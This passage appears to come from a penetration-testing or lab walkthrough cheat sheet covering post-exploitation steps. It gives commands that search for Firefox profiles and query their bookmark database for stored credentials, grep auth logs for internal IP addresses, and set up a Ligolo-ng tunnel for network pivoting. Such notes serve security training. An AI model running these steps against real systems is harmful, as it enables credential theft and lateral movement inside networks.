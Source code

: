 ## Phase 4: Browser Data Mining & Network Discovery

### Firefox Profile Analysis
```bash
# Find Firefox profiles
sudo find / -iname "*firefox*" 2>/dev/null
sudo find / -type d -name "*.default-release" 2>/dev/null

# Navigate to active profile
cd /home/privilege/.mozilla/firefox/b2rri1qd.default-release

# Extract bookmarks and history
sqlite3 places.sqlite
sqlite> .tables
sqlite> select * from moz_bookmarks;

# Look for credentials in bookmarks
# Common pattern: http://john:User1@#$%6@192.168.98.30
```

### Log Analysis
```bash
# Analyze auth.log for IP addresses
grep -E "([0-9]{1,3}\.){3}[0-9]{1,3}" /var/log/auth.log
grep -i "10.10.10" /var/log/auth.log

# Common internal IP ranges to look for
grep -E "(10\.10\.10\.|172\.16\.|192\.168\.)" /var/log/auth.log
```

---

## Phase 5: Network Pivoting & Lateral Movement

### Method 1: Using Ligolo-ng 
#### Ligolo Setup on Attacker Machine
```bash
# Attacker machine setup
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
chmod +x proxy

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
chmod +x agent

# Network interface setup
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip route del 192.168.98.0/24 dev tun0
sudo ip link set ligolo up
sudo ip route add 192.168.98.0/24 dev ligolo

# Start proxy
./proxy -selfcert -laddr 0.0.0.0:443
```
